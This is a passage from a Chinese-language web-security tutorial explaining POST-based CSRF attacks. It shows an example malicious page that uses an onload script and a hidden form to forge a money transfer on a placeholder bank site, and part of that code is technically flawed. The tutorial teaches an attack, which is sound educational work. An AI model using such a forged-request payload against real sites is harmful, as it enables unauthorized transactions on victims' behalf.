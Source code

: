 ### 3.1.3 post请求的csrf攻击
银行网站A，它现在改为以POST请求来完成银行转账的操作，
然后危险网站B也改了，它的代码如下：

```
<html>
　　<head>
　　　　<script type="text/javascript">
　　　　　　function steal()
　　　　　　{
          　　　　 iframe = document.frames["steal"];
　　     　　      iframe.document.Submit("transfer");
　　　　　　}
　　　　</script>
　　</head>

　　<body onload="steal()">
　　　　<iframe name="steal" display="none">
　　　　　　<form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
　　　　　　　　<input type="hidden" name="toBankId" value="11">
　　　　　　　　<input type="hidden" name="money" value="1000">
　　　　　　</form>
　　　　</iframe>
　　</body>
</html>
```

利用iframe的跨域漏洞

## 3.2 攻击

### 3.2.1 盗用身份

![](/assets/img/14580365338455.jpg)
